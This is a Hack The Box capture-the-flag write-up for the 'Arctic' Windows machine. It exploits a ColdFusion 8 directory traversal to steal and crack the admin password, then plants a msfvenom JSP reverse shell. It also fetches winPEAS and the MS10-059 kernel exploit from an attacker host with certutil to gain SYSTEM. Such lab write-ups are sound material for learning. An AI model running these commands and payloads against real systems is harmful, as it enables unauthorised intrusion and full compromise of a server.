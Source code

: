 # recon
- windows server -> from pinging 127 TTL
- 3 open ports
  - 135/tcp   open  msrpc   Microsoft Windows RPC
  - 8500/tcp  open  fmtp?
  - 49154/tcp open  msrpc   Microsoft Windows RPC

let start by checking `http://arctic.htb:8500/` there are 2 dicrectory
```
CFIDE/               dir   03/22/17 08:52 μμ
cfdocs/              dir   03/22/17 08:55 μμ
```
- CFIDE/
```
Application.cfm                                       1151   03/18/08 11:06 πμ
adminapi/                                              dir   03/22/17 08:53 μμ
administrator/                                         dir   03/22/17 08:55 μμ
classes/                                               dir   03/22/17 08:52 μμ
componentutils/                                        dir   03/22/17 08:52 μμ
debug/                                                 dir   03/22/17 08:52 μμ
images/                                                dir   03/22/17 08:52 μμ
install.cfm                                          12077   03/18/08 11:06 πμ
multiservermonitor-access-policy.xml                   278   03/18/08 11:07 πμ
probe.cfm                                            30778   03/18/08 11:06 πμ
scripts/                                               dir   03/22/17 08:52 μμ
wizards/
```
`CFIDE/administrator/` looks juicy! the link lead us to **ColdFusion Administrator Login**. It is a Adobe ColdFusion 8. I tried to poke the login page a bit, seem like the passwrod is encrypt before it is send to the server. 

after some diging I found this two link:
1. https://www.exploit-db.com/exploits/14641
2. https://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/

so let exploit it and grab password by visit this page!!
`CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en` 
```
#Wed Mar 22 20:53:51 EET 2017 rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP \n password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 encrypted=true
```
now use `crackstation` to crack the password -> admin:happyday and log into the admin page. Base on the link 2nd link i mentioned before, we can upload our shell in a **scheduled task** that would download cfexec.cfm to the server's webroot.


let prepare the reverse shell
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<kali ip> LPORT=6969 -f raw > shell.jsp
```
run python http.server + nc and wait for incoming shell.


so now go to debugging and logging -> scheduled task -> add new task. Follow the figure the and give the similar input as the POC. Now visite /log.jsp to get shell.
```
C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```
- systeminfo
```
systeminfo

Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45 ��
System Boot Time:          5/10/2020, 12:30:54 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
                           [02]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.023 MB
Available Physical Memory: 111 MB
Virtual Memory: Max Size:  2.047 MB
Virtual Memory: Available: 958 MB
Virtual Memory: In Use:    1.089 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.11
```

Base on the hotfix. the victim server never been patch before so we can just google about any exploit for `Microsoft Windows Server 2008 R2` or using `winPEAS`

let get winPEAS to the victim server by using `certutil` command
```
certutil -urlcache -f "http://<kali ip>:8888/winPEAS.bat" winPEAS.bat
```
run it
```
"Microsoft Windows Server 2008 R2 Standard " 
[i] Possible exploits (https://github.com/codingo/OSCP-2/blob/master/Windows/WinPrivCheck.bat)
MS11-080 patch is NOT installed! (Vulns: XP/SP3,2K3/SP3-afd.sys)
MS16-032 patch is NOT installed! (Vulns: 2K8/SP1/2,Vista/SP2,7/SP1-secondary logon)
MS11-011 patch is NOT installed! (Vulns: XP/SP2/3,2K3/SP2,2K8/SP2,Vista/SP1/2,7/SP0-WmiTraceMessageVa)
MS10-59 patch is NOT installed! (Vulns: 2K8,Vista,7/SP0-Chimichurri)
```
after diggin around I found the expolit for Chimichurri or MS10-059 on [github](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe)
dowload on kali and get it on our victim server.
```
certutil -urlcache -f "http://<kali ip>:8888/MS10-059.exe" ms10059.exe
```
now let exploit it!!
```
C:\Users\tolis\Desktop>certutil -urlcache -f "http://<kali ip>:8888/MS10-059.exe" ms10059.exe
certutil -urlcache -f "http://<kali ip>:8888/MS10-059.exe" ms10059.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

C:\Users\tolis\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is F88F-4EA5

 Directory of C:\Users\tolis\Desktop

05/10/2020  03:15 ��    <DIR>          .
05/10/2020  03:15 ��    <DIR>          ..
05/10/2020  03:17 ��           784.384 ms10059.exe
22/03/2017  10:01 ��                32 user.txt
05/10/2020  03:09 ��            33.057 winPEAS.bat
05/10/2020  03:07 ��           472.064 winPEAS.exe
               4 File(s)      1.289.537 bytes
               2 Dir(s)  33.174.990.848 bytes free

C:\Users\tolis\Desktop>ms10059.exe
ms10059.exe
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Usage: Chimichurri.exe ipaddress port <BR>
C:\Users\tolis\Desktop>ms10059.exe <kali ip> 9696
ms10059.exe <kali ip> 9696
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
C:\Users\tolis\Desktop>
```
on our another terminal that we ran `nc`
```
bibo318@parrot:~/HTB/arctic$ nc -nlvp 9696
listening on [any] 9696 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.11] 49875
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\tolis\Desktop>whoami
whoami
nt authority\system
```
go grab ur flag. GLHF